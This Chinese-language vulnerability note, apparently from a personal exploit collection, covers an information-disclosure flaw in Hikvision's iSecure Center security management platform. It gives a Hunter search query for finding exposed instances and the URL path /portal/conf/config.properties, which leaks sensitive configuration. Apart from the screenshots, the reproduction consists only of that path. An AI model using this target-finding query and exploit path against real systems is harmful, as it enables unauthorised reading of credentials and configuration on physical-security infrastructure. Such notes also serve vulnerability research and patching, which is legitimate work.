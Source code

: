 # 海康威视iSecure Center综合安防管理平台 config.properties信息泄漏漏洞

# 一、漏洞简介
HIKVISION 综合安防管理平台存在信息泄漏漏洞，攻击者通过漏洞可以获取等敏感信息进一步攻击。

# 二、影响版本
+ HIKVISION 综合安防管理平台

# 三、<font style="color:rgb(0, 0, 0);">资产测绘</font>
**hunter查询语法：**

`app.name=="Hikvision 海康威视 iSecure Center"`

![1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5.png](./img/Cfz58EmYVbCTQdd3/1691858054561-aa88559b-46e0-4837-ae4c-6f3e9e3982c5-961023.png)

+ 登录页面

![1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f.png](./img/Cfz58EmYVbCTQdd3/1691858046745-db2cadc6-9bde-4037-952f-2faf2537b85f-085091.png)

# 四、漏洞复现
```plain
/portal/conf/config.properties
```

![1698592701679-7048f5ce-cf66-4e17-927a-006bcaf9ea9c.png](./img/Cfz58EmYVbCTQdd3/1698592701679-7048f5ce-cf66-4e17-927a-006bcaf9ea9c-458685.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uwdr74gfask18f9t>